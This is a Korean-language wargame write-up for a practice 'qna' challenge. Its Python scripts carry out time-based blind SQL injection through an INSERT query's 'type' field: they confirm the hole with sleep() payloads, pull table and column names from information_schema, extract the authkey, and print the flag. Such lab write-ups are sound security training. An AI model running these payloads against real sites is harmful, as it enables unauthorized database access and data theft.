




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

javascript 연습 페이지라고 한다.



뭔가를 입력하고 데이터를 전달할 만한 곳은 to JSMaster밖에 없다.



전송되는 데이터는 cont와 mail과 type이라는 변수 뿐이다.



문제에서 Insert query를 이용한 SQLi라고 한다. type에 sleep함수를 이용하여 쿼리가 통하는 지 확인한다.

```python
import urllib
import urllib.request
import time

url     = 'http://wargame.kr:8080/qna/?page=to_jsmaster'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
try:
    start_time  = time.time()
    query       = 'sleep(5)'
    params      = urllib.parse.urlencode({'cont':'hello', 'mail':'world', 'type':query}).encode()
    request     = urllib.request.Request(url, headers = headers, data = params)
    response    = urllib.request.urlopen(request)
    delay_time  = int(time.time() - start_time)
    print(delay_time)
except Exception as e:
    print(e)

[Output]
5
```

네트워크 지연에 의한 5초일 수 도 있으니 sleep(0)을 보내 응답까지 걸리는 시간을 확인해보면 쿼리가 적용되는 것을 확인할 수 있다.

```python
... 생략 ...
    query       = 'sleep(0)'
... 생략 ...

[Output]
0
```

and를 이용하여 sleep을 해보자

```python
# True
... 생략 ...
    query       = '1=1 and sleep(3)'
... 생략 ...

[Output]
3

# False
... 생략 ...
    query       = '1=3 and sleep(3)'
... 생략 ...

[Output]
0
```

select from information_schema와 substr함수와 select ord를 이용하여 ascii값과 대조하며 참일 때, sleep을 주어 테이블 명을 알아낸다.

```python
import urllib
import urllib.request
import time
import string

for i in range(70, 90):
    table_name = ''
    for j in range(1, 50):
        old_len = len(table_name)
        for ascii_set in string.printable:
            try:
                start_time  = time.time()
                query       = '({}=(select ord(substr((select table_name from information_schema.tables limit {},1), {},1))) and sleep(3))'.format(ord(ascii_set), i, j)
                params      = urllib.parse.urlencode({'cont':'hello', 'mail':'world', 'type':query}).encode()
                request     = urllib.request.Request(url, headers = headers, data = params)
                response    = urllib.request.urlopen(request)
                delay_time  = int(time.time() - start_time)
                if delay_time >= 2:
                    table_name += ascii_set
                    break
            except Exception as e:
                print(e)
        if old_len == len(table_name): break
    if table_name == '': break
    print('[{}] {}'.format(i, table_name))

[Output]
[70] authkey
... 생략 ...
```

컬럼 명을 알아낸다.

```python
import urllib
import urllib.request
import time
import string

url     = 'http://wargame.kr:8080/qna/?page=to_jsmaster'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

for i in range(697, 700):
... 생략 ...
                query       = '({}=(select ord(substr((select column_name from information_schema.columns limit {},1), {},1))) and sleep(3))'.format(ord(ascii_set), i, j)
... 생략 ...

[Output]
[697] authkey
... 생략 ...
```

FLAG를 획득한다.

```python
import urllib
import urllib.request
import time
import string

url     = 'http://wargame.kr:8080/qna/?page=to_jsmaster'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

for i in range(0, 10):
... 생략 ...
                query       = '({}=(select ord(substr((select authkey from authkey limit {},1), {},1))) and sleep(3))'.format(ord(ascii_set), i, j)
... 생략 ...

[Output]
[0] ddc6394946018f86af4069b31471572ce97b67cc
```


# **FLAG**

**ddc6394946018f86af4069b31471572ce97b67cc**